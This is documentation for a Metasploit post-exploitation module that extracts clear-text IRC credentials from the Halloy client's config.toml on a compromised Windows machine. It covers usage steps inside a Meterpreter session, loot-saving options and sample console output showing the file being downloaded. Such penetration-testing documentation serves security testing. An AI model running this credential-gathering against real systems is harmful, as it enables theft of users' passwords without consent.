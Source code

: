 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from the Halloy IRC Client.

  The Halloy IRC Client is avaialble from (https://github.com/squidowl/halloy).

  This module extracts information from the config.toml file in the "AppData\Roaming\Halloy" directory.

  This module extracts server information such as server, port, nickname, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/halloy_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/halloy_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Halloy irc's Config.toml file found
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_HalloyIRCconfig_968975.toml

[+] server="irc.libera.chat"
[+] port=6697
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_EXTRACTIONconfig_815098.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```

msf6 post(windows/gather/credentials/halloy_irc_v2) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Halloy irc's base folder not found in users's user directory

[*] Starting Packrat...
[*] Halloy irc's base folder found
[*] Found the folder containing specified artifact for config.toml.
[*] Halloy irc's Config.toml file found
[*] Processing C:\Users\test\AppData\Roaming\halloy
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_HalloyIRCconfig_292638.toml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] server="irc.libera.chat"
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] port=6697
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_EXTRACTIONconfig_238220.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
